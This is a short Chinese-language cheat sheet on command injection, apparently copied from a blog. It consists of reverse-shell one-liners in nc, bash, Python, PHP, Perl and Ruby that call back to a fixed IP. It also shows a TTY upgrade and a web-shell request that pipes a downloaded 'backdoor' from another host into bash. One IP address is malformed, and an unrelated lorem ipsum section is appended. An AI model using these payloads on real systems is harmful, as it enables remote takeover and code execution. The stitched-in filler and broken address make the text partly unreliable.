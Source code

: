 # 命令注入

> From https://www.smi1e.top/linux-%E5%8F%8D%E5%BC%B9shell%E6%96%B9%E6%B3%95/




## 反弹shell

```bash
nc -lvvp 8080 -t -e /bin/bash

bash -i >& /dev/tcp/192.168.86.131/8080 0>&1

python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.86.131",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("192.168.786131",8080);exec("/bin/sh -i <&3 >&3 2>&3");' #代码假设TCP连接的文件描述符为3，如果不行可以试下4,5,6

perl -e 'use Socket;$i="192.168.86.131";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

ruby -rsocket -e'f=TCPSocket.open("192.168.86.131",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

将shell变成tty交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
-------
bash
```

```bash
localhost/myshellllllllll.php?c=system('curl 10.211.55.2:2333/backdoor | bash');
```



## Section 2

Nulla vitae elit libero, a pharetra augue. Cras justo odio, dapibus ac facilisis in, egestas eget quam. Cras mattis consectetur purus sit amet fermentum. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.

